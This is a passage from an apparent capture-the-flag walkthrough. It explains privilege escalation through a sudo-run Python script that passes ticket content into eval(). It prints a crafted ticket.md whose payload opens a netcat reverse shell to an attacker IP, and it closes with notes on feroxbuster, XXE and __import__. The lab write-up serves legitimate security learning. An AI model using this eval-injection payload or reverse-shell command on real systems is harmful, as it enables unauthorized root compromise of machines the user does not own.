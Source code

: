 ```python
        print("Invalid ticket.")
    ticket.close

main()

```

This script expects a .md file, runs a few checks to ensure it's a valid ticket, and if they all pass, it looks for a string enclosed within matching "\*\*" and passes it inside the eval() function. This is the key line that allows us to exploit this script. Since we have root permissions when executing this script, the python process also has root permissions, and the eval() function allows us to execute python expressions without any restriction, meaning we can execute python code as root. 

The checks that the script performs are the following
1. The file is a .md file
2. The 1st line has to start with `# Skytrain Inc`
3. The 2nd line has to start with `## Ticket to `
4.  The 3rd line has to start with `__Ticket Code:__`
5. The first number in the expression within the matching "\*\*" has to be a number that has a remainder of 4 when divided by 7
6. The result of the mathematical calculation has to be greater than 100

For our payload to execute, we must write a file that passes at least the first 5 checks, since the 6th one comes after the eval() function. 

So here's what our ticket.md file should look like:

```
# Skytrain Inc
## Ticket to New York
__Ticket Code:__
**11+89+432+__import__("os").system("busybox nc 10.10.14.9 9001 -e sh")**
```

We can't use the `import` keyword because that's a statement, not an expression, while `__import__` is, and "adding" it to the previous numbers is valid because all of that code eventually returns a status code, which is an integer. 

Now we save this file to /dev/shm on the target machine, run the script using sudo, and make sure our listener is set up:

![[Pasted image 20250209174337.png]]

And now we're root!
<br>
<br>
# Skills Learned
* Using the -x flag in `feroxbuster` with wordlists like `raft-small-words` or its medium version in seclists is useful for when you know the target site is using a particular framework and ==you want to enumerate files associated with it==. 
	* For example, if the site is running PHP, you can scan for .php scripts by passing `-x php` and find valuable info
* XML External Entity (XXE) is a vulnerability that can lead to many others such as LFI, SSRF, and even command injection, but in this case it was just LFI. 
	* External entities are a legitimate feature of XML but when no filters are put in place to prevent referencing sensitive data on the local machine or malicious URLs, that's where the problem arises
* In python, `__import__()` is a built-in function useful for importing modules when the usual `import` keyword is disallowed or doesn't work for some other reason. For example, if you want to import the `os` module and call the `system` method, you would run `__import__('os').system("<command to run>")`
	* This allows for dynamic imports, making it useful in restricted environments or when the module name is determined at runtime.
<br>
<br>